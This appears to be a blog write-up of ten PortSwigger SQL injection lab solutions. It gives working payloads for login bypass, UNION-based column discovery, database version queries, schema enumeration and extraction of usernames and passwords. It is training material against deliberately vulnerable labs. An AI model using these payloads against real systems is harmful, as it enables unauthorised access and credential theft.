```yaml
---
title: Portswigger Lab SQLi (UNION)
date: 2022-08-02 09:45:47 +07:00
modified: 2022-01-28 09:45:47 +07:00
tags: [Portswigger, SQLi , Writeup]
description: Write Up for Portswigger Lab SQLi
---
```



![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/logo.png)

Lab Name → **SQL Injection (UNION)**

Lab Link → [https://portswigger.net/web-security/all-labs](https://portswigger.net/web-security/all-labs)

Description → First 10 Labs of SQLi Lab based on UNION attack.

## SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

By making the statement true we can get all the categories.

Payload → `'OR 1=1-- -`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/1.png)


## SQL injection vulnerability allowing login bypass

In the login page after typing the username we can just comment the rest of the statement. Which will make the password parameter a comment.

Payload → `administrator'-- -`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/2.png)


## SQL injection UNION attack, determining the number of columns returned by the query

First we have to find how many columns are there. We can use the [ORDER BY]() keyword. Lets increase the payload by 1 until we get and error.

Payload → `'ORDER BY 3--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/3.png)

When we reach 4 we get a error.

Payload → `'ORDER BY 4--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/4.png)

Now we know that there are 3 columns. Lets use UNION to get all the columns.

Payload → `' UNION SELECT NULL,NULL,NULL--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/5.png)


## SQL injection UNION attack, finding a column containing text

Now that we know which table has 3 columns, we have to find the column that is injectable. In this case, 2nd column was injectable.

Payload → `' UNION SELECT NULL,'ap8kCb',NULL--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/6.png)


## SQL injection UNION attack, retrieving data from other tables

We go back to find the number of the column. In this case, we get an error at 3. So, the number of the column is 2.

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/7.png)

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/8.png)

Next, we get the username and password from the user's table using UNION.

Payload → `' UNION SELECT username,password FROM users--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/9.png)

We get the admin name and password. After we log in, the lab is solved.

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/10.png)


## SQL injection UNION attack, retrieving multiple values in a single column

We can use the CONCAT keyword to get information in one column.

Payload → `' UNION SELECT NULL,CONCAT(username,' ',password) FROM users--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/11.png)



## SQL injection attack, querying the database type and version on Oracle

For Oracle database we can get [banner]() from [v$version]() table to get the version.

Payload → `' UNION SELECT banner,NULL FROM v$version--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/12.png)



## SQL injection attack, querying the database type and version on MySQL and Microsoft

To get MySQL or Microsoft database version we can use [@@version]()

Payload → `' UNION SELECT @@version,NULL-- -`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/13.png)

## SQL injection attack, listing the database contents on non-Oracle databases

First we have to find the table_name from [information_schema.tables]()


Payload → `' UNION SELECT table_name,NULL FROM information_schema.tables--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/14.png)

We found the table of the user. Next, we are going to get the column names from the table.

Payload → `' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_neqdue'--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/15.png)

After getting the column names we can print out the data and after logging in with the administrator we solve the lab.

Payload → `' UNION SELECT username_skjbtp,password_ajvmno FROM users_neqdue--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/16.png)


## SQL injection attack, listing the database contents on Oracle

Lets get the table name first.

Payload → `' UNION SELECT table_name,NULL FROM all_tables-- -`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/17.png)

Now that we have the table name lets get the column names from that table.

Payload → `' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_ETYIRN'-- -`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/18.png)

Now lets get Admin username and password from the columns.

Payload → `' UNION SELECT USERNAME_EPLQOW,PASSWORD_ZXLHQB FROM USERS_ETYIRN-- -`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/19.png)

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/20.png)


